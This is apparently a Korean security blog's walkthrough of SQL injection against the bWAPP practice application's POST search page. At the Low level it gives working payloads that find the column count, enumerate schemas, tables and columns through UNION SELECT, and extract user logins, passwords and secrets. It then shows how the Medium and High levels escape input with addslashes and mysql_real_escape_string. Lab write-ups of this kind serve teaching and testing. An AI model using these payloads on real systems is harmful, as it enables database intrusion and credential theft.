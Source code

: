 ```yaml
---
layout: single
title: (bWAPP)SQL Injection POST/Search
categories: Web-vuln
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/sqlp-search/image.png)

- 게시글을 출력하는 기능이 존재
- 입력값은 POST 형식으로 전달됨

![그림 1-2](/assets/image/bwapp/sqlp-search/image2.png)

- '(싱글 쿼터) 입력시 DBMS Error가 출력됨
- Proxy Tool을 사용하여 입력값을 전송 해도 되지만, (실제 취약점 진단시 Proxy Tool사용을 권장) 현 실습에서는 입력값을 통한 실습을 진행

```sql
' or 1=1--
```
- 위와 같이 일반적인 조건 연산자를 통한 Injection 취약점 유/무를 판단했다. 
- 정상적인 데이터 출력을 확인, 즉 조건연산자가 Injection 과 함께 사용 가능

```sql
' order by 8
```

![그림 1-3](/assets/image/bwapp/sqlp-search/image3.png)

- order by 절을 사용하여 컬럼 개수를 파악
- 8개에서 오류가 출력됨을 확인하여 컬럼 개수는 7개로 추정

```sql
' and 1=2 union select 1,2,3,4,5,6,7--
```

- MySQL  의 경우 데이터 타입이 달라도 출력되므로 컬럼의 출력 포지션을 파악
![그림 1-4](/assets/image/bwapp/sqlp-search/image4.png)
- 2,3,5,4 가 페이지상에 노출 됨

```sql
' and 1=2 union select 1,schema_name,3,4,5,6,7 from information_schema.schemata--
```

- 5개의 데이터베이스 존재 확인
![그림 1-5](/assets/image/bwapp/sqlp-search/image5.png)

- 이후 순차적으로 테이블, 컬럼명들을 확인

```sql
' and 1=2 union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema='bWAPP'--
```

```sql
' and 1=2 union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_schema='bWAPP' and table_name='users'--
```

```sql
' and 1=2 union select 1,concat(id,0x3a,login),concat(password,0x3a,secret),4,admin,6,7 from bWAPP.users--
```

- 최종 적으로 id, login, password, secret 컬럼에 대한 데이터 추출을 시도

![그림 1-6](/assets/image/bwapp/sqlp-search/image6.png)

- 성공적으로 데이터를 추출했다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.